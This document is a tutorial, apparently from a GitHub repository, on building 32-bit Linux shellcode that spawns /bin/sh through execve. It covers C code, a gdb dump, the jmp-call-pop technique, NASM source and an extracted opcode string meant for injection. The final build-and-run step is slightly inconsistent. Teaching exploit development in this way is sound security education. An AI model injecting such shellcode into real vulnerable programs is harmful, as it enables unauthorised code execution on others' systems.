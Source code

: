 # Spawning a Shell

The easiest and quickest way to create a shell is to create a new process. 

There are two ways to do this in Linux:

- Creating a process that will replace the parent process using `execve()`.
- Creating a copy of the parent process using `fork()` and `execve()`.

Here's `./spawnshell.c` of using the former:

```c title="spawnshell.c"
#include <stdio.h>
int main()
{
    char *happy[2];
    happy[0] = "/bin/sh";
    happy[1] = NULL;
    execve(happy[0], happy, NULL);
}
```


To make this injectable, we need to translate it into opcodes. We need to use `-static` flag with `gcc` to prevent dynamic linking.

```bash
gcc -o spawnshell -fno-stack-protector -m32 -ggdb -static spawnshell.c
./spawnshell

$ whoami
kobbi
```

## Review of `execve` System Call
If we look at the signature of the `execve` method using its `man` page, we can see that it expects 3 arguments:

```c
int execve(const char *pathname, char *const argv[], char *const envp[]);
```

- The first argument is a pointer to the name/path of the interpreter (`sh` in our case).
- The second argument is a pointer to an array of arguments passed to the interpreter.
- The third is a pointer to an array of environmental variable key-value pairs.

To use this syscall, we need to pass data to 4 registers.

`EAX` will hold the syscall number for `execve` which is decimal 11 or `0x0b` (see [Linux System Call Table](http://faculty.nps.edu/cseagle/assembly/sys_call.html)). The rest of the registers (`EBX`, `ECX`, `EDX`) will hold the arguments.


We can see the assembly instructions here:

```
(gdb) disas execve
Dump of assembler code for function execve:
   0x0806dee0 <+0>:     endbr32 
   0x0806dee4 <+4>:     push   %ebx
   0x0806dee5 <+5>:     mov    0x10(%esp),%edx
   0x0806dee9 <+9>:     mov    0xc(%esp),%ecx
   0x0806deed <+13>:    mov    0x8(%esp),%ebx
=> 0x0806def1 <+17>:    mov    $0xb,%eax
   0x0806def6 <+22>:    call   *%gs:0x10
   0x0806defd <+29>:    pop    %ebx
   0x0806defe <+30>:    cmp    $0xfffff001,%eax
   0x0806df03 <+35>:    jae    0x8073510 <__syscall_error>
   0x0806df09 <+41>:    ret    
End of assembler dump.

(gdb) i r
eax            0xb                 11
ecx            0xffffcc74          -13196
edx            0x0                 0
ebx            0x80b4008           134955016
esp            0xffffcc58          0xffffcc58
ebp            0xffffcc88          0xffffcc88
eip            0x806def6           0x806def6 <execve+22>

(gdb) x/s $ebx
0x80b4008:      "/bin/sh"

```

As expected, we see that:
- `EAX` holds `0xb` which is syscall 11.
- `EBX` holds the first argument to `execve()`, the interpreter path `/bin/sh`.
- `ECX` holds the address to the argument array.
- `EDX` holds the address of `NULL`.

However, since `ECX` and `EDX` hold hardcoded addresses, the shellcode would break if we use them in different systems.

To get around this problem, we use **relative addressing**.

## Relative Addressing

The classical way to use relative addressing involves placing the beginning address of the shellcode into a register.
To do this, we start the shellcode off with a `jmp` instruction to the `call` instruction. When the `call` instruction is executed, the address of the instructions immediately following the `call` instruction is pushed onto the stack. We need to place whatever we want to use as the base relative address directly following the `call` instruction. Since we want our shellcode to be executed, we will have the `call` instruction call the instruction immediately following the initial `jmp`. 
The last step is to add the `pop esi` instruction right after the first `jmp` instruction. This will allow us to reference different bytes in our shellcode by using the distance/offset from `esi`.

Here is some pseudo-code to illustrate how it would look:

```
    jmp short   GotoCall

shellcode:
    pop esi
    ...
    <shellcode>
    ...

GotoCall:
    call    shellcode
    db      '/bin/sh' ; define byte sets aside space in memory for a string
```

See the full assembly code `execve.asm`:

```asm title="execve.asm"
Section	.text

	global _start
	
	
_start:
	jmp 	GotoCall
	
shellcode:
	pop	        esi
	xor	        eax, eax            ; set eax to null
	mov byte	[esi + 7], al       ; terminate /bin/sh with null, overwriting J
	lea	        ebx, [esi]          ; copy address of beginning of /bin/sh to ebx
	mov long	[esi + 8], ebx      ; copy address of beginning of /bin/sh over AAAA
	mov long	[esi + 12], eax     ; copy nulls over KKKK
	mov byte	al, 0x0b            ; copy syscall
	mov	        ebx, esi            ; copy address of /bin/sh into ebx
	lea	        ecx, [esi + 8]      ; copy pointer to /bin/sh into ecx
	lea	        edx, [esi + 12]     ; copy pointer to null into edx
	int	        0x80                ; call interrupt
	
GotoCall:
	call	shellcode
	db	'/bin/shJAAAAKKKK' ; JAAAAKKKK are placeholders used for reference. will be overwritten
```

Compile it using:
```bash
nasm -f elf -o execve.o -g execve.asm
ld -m elf_i386 -s -o execve execve.o
```

We can then get the opcodes:
```bash
objdump -d execve | cut  -f2 | awk "NR > 7" | xargs | sed 's/ /\\x/g'

eb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4a\x41\x41\x41\x41\x4b\x4b\x4b\x4b
```

Compile and run [the source](./execve.c):

```c title="execve.c"
/* execve.c */

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int
main(int argc, char *argv[])
{
    char *newargv[] = { NULL, "hello", "world", NULL };
    char *newenviron[] = { NULL };

    if (argc != 2) {
        fprintf(stderr, "Usage: %s <file-to-exec>\n", argv[0]);
        exit(EXIT_FAILURE);
    }

    newargv[0] = argv[1];

    execve(argv[1], newargv, newenviron);
    perror("execve");   /* execve() returns only on error */
    exit(EXIT_FAILURE);
}
```


```bash
gcc -fno-stack-protector -z execstack -o execve_run -ggdb execve.c
./execve
```